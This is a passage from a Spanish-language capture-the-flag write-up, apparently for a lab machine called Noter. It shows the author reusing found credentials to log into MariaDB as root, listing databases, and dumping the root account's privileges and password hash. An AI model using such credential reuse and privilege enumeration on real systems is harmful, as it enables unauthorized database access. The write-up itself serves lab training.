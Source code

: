 ```console
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```

> Observamos que la dirección es `127.0.0.1:3306` lo cuál indica que solo sera accesible desde la propia máquina
{: .prompt-info}

Con está información logramos entrar con las credenciales de antes `DB_user:DB_password`, `root:Nildogg36`

> En el primer caso no encontramos nada interesante

> Pero en el segundo caso somos usuarios privilegiados, lo cuál puede ser peligroso

Asi que enumeramos un poco para ver a que nos enfrentamos:

```console
svc@noter:~/app/web$ mysql -uroot -pNildogg36 -e "select version();"
+----------------------------------+
| version()                        |
+----------------------------------+
| 10.3.32-MariaDB-0ubuntu0.20.04.1 |
+----------------------------------+
svc@noter:~/app/web$ mysql -uroot -pNildogg36 -e "select user();"
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
svc@noter:~/app/web$ mysql -uroot -pNildogg36 -e "show databases;"
+--------------------+
| Database           |
+--------------------+
| app                |
| information_schema |
| mysql              |
| performance_schema |
| test               |
+--------------------+
```

Vemos que somos `root` y además la base de datos `mysql` que almacena los usuarios y sus privilegios, así que vemos que privilegios tenemos:

```console
svc@noter:~/app/web$ mysql -uroot -pNildogg36 -e "select * from mysql.user where user = substring_index(user(), '@', 1)" -E                                                          [144/144]
*************************** 1. row ***************************                                                                                                                                
                  Host: localhost                                                                                                                                                             
                  User: root                                                                                                                                                                  
              Password: *937440AD99CBB4A102402708AA43B689818489C8                                                                                                                             
           Select_priv: Y                                                                      
           Insert_priv: Y                      
           Update_priv: Y                                                                      
           Delete_priv: Y                                                                      
           Create_priv: Y                                                                      
             Drop_priv: Y                      
           Reload_priv: Y                      
         Shutdown_priv: Y                      
          Process_priv: Y                      
             File_priv: Y                      
```